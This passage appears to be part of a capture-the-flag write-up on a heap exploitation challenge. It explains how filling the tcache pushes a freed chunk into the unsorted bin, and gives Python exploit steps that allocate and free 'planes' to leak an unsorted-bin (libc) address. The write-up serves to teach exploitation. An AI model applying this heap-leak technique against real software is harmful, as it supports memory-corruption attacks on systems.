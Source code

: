 1. The tcache has to be full to make free place the name chuck in a unsorted bin.
2. The size of the allocated chucks must be bigger than 0x80 as it would otherwise be placed in fast bins instead of unsorted bins. We chose 0x200.

```python
sellPlane(0x200, b'A\n', 10, 0x200, b'B\n') #0
sellPlane(0x200, b'A\n', 10, 0x200, b'B\n') #1
sellPlane(0x200, b'A\n', 10, 0x200, b'B\n') #2
sellPlane(0x200, b'A\n', 10, 0x20, b'B\n')  #3
sellPlane(0x200, b'A\n', 10, 0x20, b'B\n')  #4

deletePlane(0)
deletePlane(1)
deletePlane(2)
deletePlane(3)
deletePlane(4)
```
Here we allocate 5 planes the first 4 planes allocate 7 chunks of size 0x210 and the final 0x200 chuck will end up in the 0x210 unsorted bin as show bellow.

![Kiku](images/unsorted.png)

Here we see that after freeing the planes we have 7 0x210 chunks in the tcache and one in the unsorted bin 0x210.

```python
sellPlane(0x8, b'A'*0x8, 10, 0x1e0, b'B\n') #0
unsortedBinAddr = u64Var(viewPlane(0)['name'].split(b'A'*8)[1])
```

Now when we allocate a new plane we will use the unsorted bin 0x200 before taking from the tcache.

before reading new name:
![Kiku](images/beforeMalloc.png)

after creating a new plane with name `AAAAAAAA`:
![Kiku](images/afterMalloc.png)
